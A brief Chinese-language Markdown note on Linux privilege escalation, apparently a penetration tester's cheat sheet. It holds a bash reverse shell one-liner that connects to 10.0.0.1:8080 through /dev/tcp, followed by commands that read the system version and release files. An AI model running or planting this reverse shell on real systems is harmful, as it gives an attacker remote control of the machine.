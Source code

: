 # GUN Linux 提权笔记

##### Shell反弹
```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```


查看系统版本
`uname -a`
`cat /etc/*-release`
`cat /etc/issue`
